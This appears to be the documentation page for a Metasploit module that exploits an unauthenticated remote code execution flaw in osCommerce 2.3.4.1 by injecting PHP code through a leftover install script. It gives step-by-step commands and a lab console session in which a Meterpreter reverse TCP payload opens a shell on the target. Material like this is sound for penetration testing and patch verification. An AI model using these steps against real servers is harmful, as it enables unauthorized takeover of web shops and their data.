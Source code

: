 ## Vulnerable Application

osCommerce version 2.3.4.1 is vulnerable to remote code execution. If the `/install/` directory was not removed, it is possible for an unauthenticated attacker to run the `install_4.php` script, which will create the configuration file for the installation. This allows the attacker to inject PHP code into the configuration file and execute it.

## Verification Steps

  1. Download and install [osCommerce 2.3.4.1](https://www.exploit-db.com/apps/ce2796b352d6e0fb4e9f03866ae98541-oscommerce-2.3.4.zip)
  2. `use exploit/multi/http/oscommerce`
  3. `set RHOST IP`
  4. `set PAYLOAD php/meterpreter/reverse_tcp`
  5. `set LHOST IP`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started

## Scenarios

### osCommerce version 2.3.4.1 on Debian

```
msf > use exploit/multi/http/oscommerce
msf exploit(multi/http/oscommerce) > set RHOST 172.16.40.188
RHOST => 172.16.40.188
msf exploit(multi/http/oscommerce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/oscommerce) > set LHOST 172.16.40.5
LHOST => 172.16.40.5
msf exploit(multi/http/oscommerce) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (37543 bytes) to 172.16.40.188
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.188:47466) at 2018-04-05 18:14:45 +0100

meterpreter > sysinfo 
Computer    : oscommerce
OS          : Linux oscommerce 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64
Meterpreter : php/linux
meterpreter > 
```